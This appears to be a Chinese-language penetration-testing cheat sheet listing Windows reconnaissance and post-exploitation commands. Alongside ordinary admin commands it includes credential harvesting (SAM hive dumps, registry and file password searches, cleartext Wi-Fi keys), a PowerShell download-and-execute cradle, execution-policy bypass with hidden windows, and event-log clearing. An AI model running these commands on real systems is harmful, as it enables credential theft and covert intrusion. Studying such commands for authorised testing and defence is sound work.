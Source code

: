信息收集 - Windows
========================================

基本命令
----------------------------------------
- 查询所有计算机名称 ``dsquery computer``
- 查看配置 ``systeminfo``
- 查看版本 ``ver``
- 进程信息 ``tasklist /svc``
- 查看所有环境变量 ``set``
- 查看计划任务 ``schtasks /QUERY /fo LIST /v``
- 查看安装驱动 ``DRIVERQUERY``
- 查看操作系统架构 ``wmic os get osarchitecture``
- 查看逻辑盘 ``wmic logicaldisk get caption``
- 查看安装的软件 ``wmic product get name,version``
- 查看Powershell版本：``REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion``

系统服务管理-sc
----------------------------------------
- start
	+ 用于启动、停止或暂停服务
- stop
	+ 用于停止服务
- query
	+ 用于查询服务的状态
	+ ``Sc [ServerName] query [ServiceName] [type= {driver | service | all}] [type= {own | share | interact | kernel | filesys | rec | adapt}] [state={active | inactive | all}] [bufsize= BufferSize] [ri= ResumeIndex] [group= GroupName]``
		::
		
			ServerName：远程服务器名称须使用 UNC 格式（"\myserver"）。
			ServiceName：指定服务名。
			type= {driver | service | all}
			type= {own | share | interact | kernel | filesys | rec | adapt}：指定要枚举的服务类型或驱动程序类型。
			state= {active | inactive | all}:指定要枚举的服务的已开始状态。
- config
	+ 用于更改服务的配置（永久）
	+ ``sc config stisvc start= demand``
- create
	+ 用于创建新服务
	+ ``sc create TestService binPath= "C:\test.exe"``
- delete
	+ 用于删除指定服务
	+ ``sc delete TestService``

域信息
----------------------------------------
- 获取当前组的计算机名 ``net view``
- 查看所有域 ``net view /domain``
- 查看域中的用户名 ``dsquery user``
- 查询域组名称 ``net group /domain``
- 查询域管理员 ``net group "Domain Admins" /domain``
- 查看域控制器 ``net group "Domain controllers"``
- 查询Kerberos票证缓存 ``klist``

用户信息
----------------------------------------
- 查看用户 ``net user`` / ``whoami`` / ``whoami /all`` / ``echo %USERNAME% || whoami``
- 查看用户信息: ``net user <administrator>``
- 用户特权信息 ``whoami /priv``
- 查看当前权限 ``net localgroup administrators``
- 查看在线用户 ``qwinsta`` / ``query user`` / ``quser``
- 查看当前计算机名，全名，用户名，系统版本，工作 站域，登陆域 ``net config Workstation``

网络信息
----------------------------------------
- 域控信息
	+ ``nltest /dclist:xx``
	+ ``Get-NetDomain``
	+ ``Get-NetDomainController``
- 网卡信息 ``ipconfig``
- ARP表 ``arp -a``
- 路由表 ``route print``
- 监听的端口 ``netstat -ano``
- 查看netbios：``nbtscan 192.168.1.17``
- 防火墙状态及规则
	+ ``netsh firewall show config``
	+ ``netsh firewall show state``
- hosts文件

密码信息
----------------------------------------
+ 当前系统凭据
	- ``cmdkey /l``
+ REG导出SAM数据
	::
		
		reg save HKLM\SAM sam.hiv
		reg save HKLM\SYSTEM system.hiv
		reg save HKLM\SECURITY security.hiv
+ 系统文件查找
	- ``cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt``
	- ``findstr /si password *.xml *.ini *.txt *.config 2>nul >> results.txt``
	- ``findstr /spin "password" *.*``
+ 文件名查找
	- ``dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*``
	- ``where /R C:\ user.txt``
	- ``where /R C:\ *.ini``
+ 注册表搜索密码
	::
	
		REG QUERY HKLM /F "password" /t REG_SZ /S /K
		REG QUERY HKCU /F "password" /t REG_SZ /S /K

		reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
		reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
		reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
		reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
		reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
		reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

		reg query HKLM /f password /t REG_SZ /s
		reg query HKCU /f password /t REG_SZ /s
+ unattend.xml
	::
	
		C:\unattend.xml
		C:\Windows\Panther\Unattend.xml
		C:\Windows\Panther\Unattend\Unattend.xml
		C:\Windows\system32\sysprep.inf
		C:\Windows\system32\sysprep\sysprep.xml
+ wifi密码
	- Find AP SSID: ``netsh wlan show profile``
	- Get Cleartext Pass: ``netsh wlan show profile <SSID> key=clear``
	- ``cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on``

主机敏感数据
----------------------------------------
- Pillager
	+ 项目地址：``https://github.com/qwqdanchun/Pillager``
	+ 运行后，在系统temp目录生成Pillager.tar.gz文件。

其他
----------------------------------------
+ wmic
	- 提供了从命令行接口和批命令脚本执行系统管理的支持
	- 查看补丁安装情况: ``wmic qfe get Caption,Description,HotFixID,InstalledOn``
	- 获取帮助
		+ ``wmic /?``
		+ 查看nic命令帮助：``wmic nic /?``
		+ 信息筛选：``wmic nic where NetConnectionStatus=2 get Name,MACAddress,NetConnectionStatus``
	- 查看杀软：``WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntivirusProduct Get displayName``
	- 查看启动项：``wmic startup get caption,command``
	- 进程管理
		+ 列出进程的核心信息：``wmic process list brief``
		+ 新建进程：``wmic process call create notepad``
		+ 结束进程
			- ``wmic process \[handle/PID\] delete``
			- ``wmic process \[handle/PID\] call terminate``
			- ``wmic process where "name='svchost.exe' and ExecutablePath<>'C:\\\\WINDOWS\\\\system32\\\\svchost.exe'" call Terminate``
			- ``wmic process where "name='svchost.exe' and ExecutablePath='C:\\\\WINDOWS\\\\svchost.exe'" call Terminate``
	- BIOS管理
		+ 查看bios版本型号：``wmic bios get name,SMBIOSBIOSVersion,manufacturer``
	- 计算机系统管理
		+ 查看硬件，操作系统信息：``wmic computersystem get Name,workgroup,NumberOfProcessors,manufacturer,Model``
		+ 查看系统启动选项boot.ini的内容：``wmic computersystem get SystemStartupOptions``
		+ 更改计算机名abc为123：``wmic computersystem where “name=‘abc’” call rename 123``
		+ 改工作组google为MyGroup：``wmic computersystem where “name=‘google’” call joindomainorworkgroup “”,"",“MyGroup”,1``
	- CPU 管理
		+ 查看cpu型号：``wmic cpu get name``
	- 文件管理
		+ 查找c盘下windows目录(不包括子目录)下的system.ini文件：``wmic datafile where "drive='c:' and path='\\windows\\' and FileName='system' and Extension='ini'" get Name``
		+ 删除e盘下文件大小大于10M的.cmd文件：``wmic datafile where "drive='e:' and Extension='cmd' and FileSize>'10000000'" call delete``
		+ 复制e盘下test目录(不包括子目录)下的cc.cmd文件到e:\,并改名为aa.bat：``wmic datafile where "drive='e:' and path='\\test\\' and FileName='cc' and Extension='cmd'" call copy "e:\aa.bat"``
		+ 改名c:\hello.txt为c:\test.txt：``wmic datafile "c:\\hello.txt" call rename c:\test.txt``
	- 监视器管理
		+ 获取屏幕像素：``wmic DESKTOPMONITOR where Status='ok' get ScreenHeight,ScreenWidth``
		+ 获取磁盘型号大小：``wmic DISKDRIVE get Caption,size,InterfaceType``
	- 系统环境设置管理
		+ 获取temp环境变量：``wmic ENVIRONMENT where "name='temp'" get UserName,VariableValue``
		+ 更改path环境变量值,新增e:\tools：``wmic ENVIRONMENT where "name='Path' and username='<SYSTEM>'" set VariableValue="%path%;e:\tools"``
		+ 新增系统环境变量home,值为%HOMEDRIVE%%HOMEPATH%：``wmic ENVIRONMENT create name="home",username="administrator",VariableValue="%HOMEDRIVE%%HOMEPATH%"``
		+ 删除home环境变量：``wmic ENVIRONMENT where "name='home'" delete``
	- 文件目录系统项目管理
		+ 查找c盘下名为windows的目录（不包含子目录）：``wmic FSDIR where "drive='c:' and path='\\windows\\'" list``
		+ 删除e:\test目录下除过目录abc的所有目录：``wmic FSDIR where "drive='e:' and path='\\test\\' and filename<>'abc'" call delete``
		+ 删除c:\good文件夹：``wmic fsdir "c:\\good" call delete``
		+ 重命名c:\good文件夹为abb：``wmic fsdir "c:\\good" rename "c:\\abb"``
	- 本地储存设备管理
		+ 获取硬盘系统格式、总大小、可用空间等：``wmic LOGICALDISK get name,Description,filesystem,size,freespace``
	- 网络界面控制器 (NIC) 管理
		+ 获取已连接网卡的名字、速率：``wmic NIC where NetEnabled=true get Name, Speed``
		+ 获取已IP地址网卡的index、caption：``wmic nicconfig where IPEnabled="true" get Index, Caption``
		+ 设置index =1的网卡，静态IP地址：``wmic nicconfig where Index=1 call EnableStatic ("1.2.3.4"),("255.255.255.0")``
		+ 设置index =1的网卡，采用DHCP方式获取IP地址：``wmic nicconfig where Index=1 call EnableDHCP``
	- 操作系统管理
		+ 设置系统时间：``wmic os where(primary=1) call setdatetime 20070731144642.555555+480``
		+ 更改当前页面文件(pagefile.sys)初始大小和最大值：``wmic PAGEFILESET set InitialSize="512",MaximumSize="512"``
		+ 页面文件设置到d:\下,执行下面两条命令：``wmic pagefileset create name='d:\pagefile.sys',initialsize=512,maximumsize=1024``,``wmic pagefileset where "name='c:\\pagefile.sys'" delete``
	- 安装包任务管理
		+ 卸载.msi安装包：``wmic PRODUCT where "name='Microsoft .NET Framework 1.1' and Version='1.1.4322'" call Uninstall``
		+ 修复.msi安装包：``wmic PRODUCT where "name='Microsoft .NET Framework 1.1' and Version='1.1.4322'" call Reinstall``
	- 服务程序管理
		+ 查看服务列表：``wmic service list brief``
		+ 运行spooler服务：``wmic SERVICE where name="Spooler" call startservice``
		+ 停止spooler服务：``wmic SERVICE where name="Spooler" call stopservice``
		+ 暂停spooler服务：``wmic SERVICE where name="Spooler" call PauseService``
		+ 更改spooler服务启动类型[auto|Disabled|Manual] 释[自动|禁用|手动]：``wmic SERVICE where name="Spooler" set StartMode="auto"``
		+ 删除服务：``wmic SERVICE where name="test123" call delete``
	- 共享资源管理
		+ 删除共享：``wmic SHARE where name="e$" call delete``
		+ 添加共享：``WMIC SHARE CALL Create "","test","3","TestShareName","","c:\test",0``
	- 声音设备管理
		+ ``wmic SOUNDDEV list``
	- 用户登录到计算机系统时自动运行命令的管理
		+ 查看msconfig中的启动选项：``wmic STARTUP list``
		+ 基本服务的系统驱动程序管理：``wmic SYSDRIVER list``
	- 用户帐户管理
		+ 更改用户administrator全名为admin：``wmic USERACCOUNT where name="Administrator" set FullName="admin"``
		+ 更改用户名admin为admin00：``wmic useraccount where "name='admin'" call Rename admin00``
+ PowerShell
	- 简介
		+ 一个PowerShell脚本其实就是一个简单的文本文件，其扩展名为".ps1"。PowerShell脚本文件中包含一系列命令，每个命令为独立一行。
		+ 执行策略：为防止恶意脚本，默认情况下策略为 **不能执行** 。
		+ 使用 ``get-executionPolicy`` 获取当前执行策略。
			::
			
				Restricted：脚本不能运行（默认设置）
				RemoteSigned：在本地创建脚本可以运行，但从网上下载的不能（拥有数字证书签名除外）
				AllSigned：仅当脚本受信任的发布者签名时才能运行
				Unrestricted：允许所有脚本运行
				
				设置策略：set-ExecutionPolicy <policy name>
		+ 管道：``get-process p* | stop-process``
	- 绕过执行策略
		+ 管道：``Type helloword.ps1 |powershell.exe -NoP -``
		+ 网络下载：``powershell -nop -c "iex(New-Object Net.WebClient).DowndloadString('url')"``
		+ bypass方式：``powershell.exe -ExecutionPolicy bypass -File helloworld.ps1``
		+ 加密方式：即encodedCommand方式。
		+ 隐藏执行：``PowerShell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -File xxx.ps1``
	- 查看版本：``get-host``,``$PSVersionTable.PSVERSION``
	- 查看支持命令：``get-command``
		+ 查看命令帮助：``Get-Help Enter-PSSession``
	- 获取所有进程：``get-process``
	- -command 命令参数
		+ 此方法不需要一个交互式窗口，它适用于简单脚本执行，对于复杂脚本会发生解析错误。
		+ ``PowerShell -command "Write-Host 'you are good.'"``
	- -encodedCommand命令参数
		+ 此方法的输入内容是Unicode/base64 encod字符串，使用以下方式编码
			::
			
				$command = 'dir "c:\program files" '
				$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
				$encodedCommand = [Convert]::ToBase64String($bytes)
				$encodedCommand即为最终的字符串。
		+ ``PowerShell -encodedCommand ZABpAHIAIAAiAGMAOgBcAHAAcgBvAGcAcgBhAG0AIABmAGkAbABlAHMAIgAgAA==``
	- 运行远程命令
		+ WS-Management协议:为计算机设备远程交换管理数据提供了一个公开的标准，在Windows上，微软通过WinRM实现。
		+ 检查WinRM服务：``Get-Service WinRM``
		+ 启动并配置系统接收远程命令：``Enable-PSRemoting –Force``
			::
			
				如果你的计算机已经加入了域，那么上面的配置就可以了。
				对于没有加入域的计算机还需要进行信任设置，然后重启 WinRM 服务：
				Set-Item wsman:\localhost\client\trustedhosts *
				Restart-Service WinRM
		+ 测试远程命令：``Test-WsMan xxx.xxx.xxx.xxx``
		+ 创建远程连接session：``Enter-PSSession -ComputerName my-svr -Credential ****(用户名)***``
		+ 远程执行单个命令：``Invoke-Command -ComputerName cd-lsr-svr -ScriptBlock { Get-Service WinRM } -credential ****(用户名)***``
+ 日志与事件信息
	- ``wevtutil``
		+ 显示系统日志配信信息：``wevtutil gl System /f:xml``
		+ 显示系统日志状态：``wevtutil gli System``
		+ 删除日志：``wevtutil cl system/application``
		+ 显示应用程序日志三个最新事件：``wevtutil qe Application /c:3 /rd:true /f:text``
		+ 导出系统日志：``wevtutil epl System C:\backup\system0506.evtx``
+ 注册表信息
	- ``reg``
